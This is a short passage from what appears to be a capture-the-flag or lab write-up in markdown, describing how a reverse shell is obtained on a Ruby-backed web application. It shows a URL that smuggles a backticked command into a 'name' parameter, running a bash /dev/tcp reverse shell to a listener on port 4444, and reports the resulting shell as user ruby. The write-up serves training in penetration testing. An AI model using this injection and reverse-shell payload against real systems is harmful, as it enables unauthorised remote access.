


Seeing as the web application is powered by Ruby , we will also opt for a Ruby payload, although Bash works equally well. Using revshells, we can quickly create custom payloads as well as pick an encoding; in this case, Base64 .

Knowing this we can run a one liner in bash such as  (we listen to port 4444)



We add the following hash to the webpage.

```bash
http://10.10.14.69/?name=%20`bash -c  "bash -i >& /dev/tcp/10.10.14.69/4444 0>&1"`
```



We successfully receive a shell as ruby .

[Back](README.md)